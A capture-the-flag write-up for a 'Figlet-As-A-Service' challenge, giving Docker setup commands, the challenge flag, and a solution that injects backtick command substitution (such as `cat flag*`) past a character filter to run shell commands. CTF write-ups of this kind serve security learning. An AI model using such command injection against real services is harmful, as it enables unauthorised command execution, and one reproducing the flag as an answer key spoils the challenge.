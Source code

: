 # FaaS

### Setup

```
docker build -t faas .
docker run --rm -p 1729:1337 faas
```

> I made Figlet-As-A-Service that runs on a Bash shell! Could you test if it's secure?

**Flag:** `ZenseCTF{e4sy-p345y-j41L}`

### Solution

Test random characters to see if something is filtered or not. One can find that the character `\`` is unfiltered. It so happens that backticks can also be used to execute code in a Bash shell.

```
`ls`

# . is filtered so you cannot use flag.txt
`cat flag*`
```
